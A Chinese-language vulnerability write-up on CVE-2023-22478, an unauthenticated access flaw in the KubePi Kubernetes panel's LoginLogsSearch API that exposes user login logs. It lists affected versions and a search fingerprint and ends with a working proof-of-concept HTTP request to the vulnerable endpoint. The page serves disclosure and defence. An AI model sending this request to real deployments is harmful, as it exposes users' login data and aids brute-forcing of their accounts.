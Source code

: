 # KubePi LoginLogsSearch 未授权访问漏洞 CVE-2023-22478

## 漏洞描述

KubePi 是一个现代化的 K8s 面板。KubePi 允许管理员导入多个 Kubernetes 集群，并且通过权限控制，将不同 cluster、namespace 的权限分配给指定用户。它允许开发人员管理 Kubernetes 集群中运行的应用程序并对其进行故障排查，供开发人员更好地处理 Kubernetes 集群中的复杂性。

KubePi LoginLogsSearch 方法下的接口存在未授权访问漏洞，攻击者通过漏洞可以未授权获取用户的登录日志信息，进一步爆破用户。

## 漏洞影响

```
KubePi <= v1.6.4
```

## 网络测绘

```
"kubepi"
```

## 漏洞复现

登录页面

![image-20230504141145409](images/image-20230504141145409.png)

补丁中对路由加了身份验证

![image-20230504141203464](images/image-20230504141203464.png)

对应的接口为

![image-20230504141218134](images/image-20230504141218134.png)

验证POC

```
POST /kubepi/api/v1/systems/login/logs/search?pageNum=1&&pageSize=10 HTTP/1.1
Content-Type: application/json

{}
```

![image-20230504141241265](images/image-20230504141241265.png)